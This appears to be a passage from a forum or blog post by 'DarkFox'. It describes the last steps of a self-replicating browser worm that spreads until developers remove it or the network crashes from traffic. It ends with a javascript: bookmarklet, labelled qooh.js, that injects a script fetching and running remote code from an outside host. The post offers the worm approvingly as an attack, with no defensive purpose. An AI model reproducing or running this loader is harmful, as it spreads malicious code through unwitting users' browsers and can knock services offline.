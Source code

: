 5. The code runs on people's browsers, it replicates.

6. Return to step 5… infinitely until the developers manually remove the virus
   or the network crashes due to too much traffic.

7. Who said life can't be created on a computer?


Cheers, DarkFox.

 [qooh.js]:
 javascript:(s=document.createElement("script")).src="//darkfox.us.to/e/a.js";void(document.body.appendChild(s))
